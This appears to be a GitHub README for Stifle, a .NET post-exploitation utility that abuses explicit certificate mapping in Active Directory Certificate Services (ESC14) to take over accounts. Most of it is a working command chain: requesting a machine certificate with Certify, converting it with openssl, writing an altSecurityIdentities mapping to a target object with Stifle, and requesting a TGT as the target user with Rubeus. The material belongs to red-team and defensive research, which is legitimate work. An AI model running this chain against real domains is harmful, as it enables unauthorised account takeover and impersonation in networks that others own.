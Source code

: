 # Description
Nearly a year ago, Jonas Knudsen (@Jonas_B_K) over at SpecterOps published a blog titled “ADCS ESC14 Abuse Technique”, covering a previously known technique for leveraging Active Directory Certificate Services (ADCS) for multiple types of account takeover via explicit certificate mapping. He published a collection of PowerShell tooling used for generating and writing the `altSecurityIdenities` attribute as part of the primary variation of the abuse technique. Since this technique could be seen as the third main method of account takeover when holding a write primitive over an object (apart from RBCD and Shadow credentials), I thought it needed its own .NET tooling. 

Introducing Stifle, an extremely simple .NET post-exploitation utility that uses a passed certificate to set explicit certificate mapping on a target object, allowing impersonation of the target object using the certificate mapped. 

```
   _____ _   _  __ _
  / ____| | (_)/ _| |
 | (___ | |_ _| |_| | ___
  \___ \| __| |  _| |/ _ \
  ____) | |_| | | | |  __/
 |_____/ \__|_|_| |_|\___|

 [*] Exploit explicit certificate mapping in Active Directory

 [*] Add an explicit certificate mapping on a target object by writing the required altSecurityIdentities value using a certificate and the certificate password:
        Stifle.exe add /object:target /certificate:MIIMrQI... /password:P@ssw0rd

 [*] Clear the altSecurityIdentities attribute, removing the explicit certificate mapping:
        Stifle.exe clear /object:target
```

# Use
First request a certificate using Certify that the target object will be mapped to (Note the certificate requested must be a machine account certificate):
```Certify.exe request /ca:lab.lan\lab-dc01-ca /template:Machine /machine```
![image](https://github.com/user-attachments/assets/6472d40d-333e-47a9-9f34-19380eec2463)

Then copy the certificate information into a `.pem` file and use the openssl binary on a unix-based system to convert to base64 `.pfx` format:
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export | base64 -w 0
```

Next copy the exported certificate into a Stifle command, which will generate an altSecurityIdentities certificate mapping string and write it to the target object:
```
Stifle.exe add /object:target /certificate:MIIMrQI... /password:P@ssw0rd
```
![image](https://github.com/user-attachments/assets/bfa06572-ac53-400f-8795-4542b89a41f8)


Finally request a TGT using PKINIT authentication, effectively impersonating the target user with Rubeus:
```
Rubeus.exe asktgt /user:target /certificate:MIIMrQI... /password:P@ssw0rd
```
![image](https://github.com/user-attachments/assets/9e7045cf-ef52-4fd4-a380-592f28080a15)


